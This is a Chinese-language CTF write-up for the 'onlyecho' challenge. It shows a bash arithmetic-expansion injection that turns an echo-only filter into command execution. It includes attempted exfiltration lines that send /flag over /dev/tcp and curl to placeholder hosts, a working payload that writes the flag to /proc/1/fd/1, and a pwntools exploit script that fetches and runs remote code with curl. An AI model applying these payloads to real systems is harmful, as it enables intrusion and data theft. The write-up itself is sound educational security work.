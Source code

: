 ![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f83386d9-1572-4520-816e-227a790e5dcd)

那在何種情況 command 會是空值呢？這邊發現在定義 `environment variable` 的時候 command 會是空值。

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/793f7e9d-0597-462b-8b41-898f8dce1d83)

也就是說我們除了下 `echo` 以外也可以定義 `environment variable`，那這能做甚麼，這就能利用 bash 裡面 `Arithmetic Expansion` 也就是 `$((1+1))` 以及 array 也就是 `arr=(aa bb); echo ${arr[0]}` 這個兩個功能的特性。

首先 `Arithmetic Expansion` 裡面如果出現 variable 的話她會**自動**把 variable 內的表達式做展開，也就是 `test='1+1'; echo $((test+1))` 你會得到 `$(((1+1)+1))` 也就是 3。

再來 array 如果在 `Arithmetic Expansion` 內，並且她的 index 有 `command substitution` 也就是 `$()` 的話一樣會執行 command，也就是說 `arr=(1 2); echo $((arr[$(echo 1)]+1))` 這樣會得到 `$((arr[1]+1))` 展開後是 `$((2+1))` 也就是 3。

利用這兩點我們可以組合出這個 `payload='arr[$(RCE)]'; echo $(( payload == 1 ));` 再 `RCE` 的位置可以放任意指令並執行，這點我們可以用這個指令做測試 `arr='1' payload='arr[$(echo 0)]'; echo $(( payload == 1 ))`

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/96e9b383-0109-4222-9fe2-d27e3f52a256)

但是用這種方式所造成的 RCE 沒辦法使用 STDOUT 輸出任何東西，因此要另外想回傳 flag 的方發，遠本試過用網路回傳如：`payload='arr[$(cat /flag > /dev/tcp/<IP>/<PORT>)]'; echo $(( payload == 1 ));` 或者 `payload='arr[$(curl <URL>/$(cat /flag))]'; echo $(( payload == 1 ));` 等等方法，但都沒成功，於是我試架一次他的環境，發現他的環境沒有 `/dev` 然後我把 `nc` 放進去以後發現環境沒網路，所以沒辦法用網路傳 flag 回來。

最後發現他有 `/proc` 所以試著用 `payload='arr[$(cat /flag > /proc/$$/fd/1)]'; echo $(( payload == 1 ));` 不知道為何依然沒成功，後來我發現他的 nodejs 程式每次執行一定再 pid 1 所以我就用 `payload='arr[$(cat /flag > /proc/1/fd/1)]'; echo $(( payload == 1 ));` 就成功拿到 flag 了。

## exploit

```python
import pwn
import base64
import sys
import subprocess

r = pwn.remote("onlyecho.2024.ctfcompetition.com", 1337)

def genpayload(cmd):
    return f"payload='arr[$({cmd})]'; echo $(( payload == 1 )); "

sys.stdout.buffer.write(r.recvuntil(b') solve '))

token = r.recvuntil(b'\n')
sys.stdout.buffer.write(token)

token = token.strip().decode()

r.sendline(subprocess.run(f'bash -c "python3 <(curl -sSL https://goo.gle/kctf-pow) solve {token}"', shell=True, capture_output=True).stdout.strip())

sys.stdout.buffer.write(r.recvrepeat(timeout=1))

r.sendline(genpayload('cat /flag > /proc/1/fd/1').encode())

sys.stdout.buffer.write(r.recvrepeat(timeout=1))
```

## Flag

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/da8df9df-d116-4fd3-8704-363ae2931c8e)

`CTF{LiesDamnedLiesAndBashParsingDifferentials}`



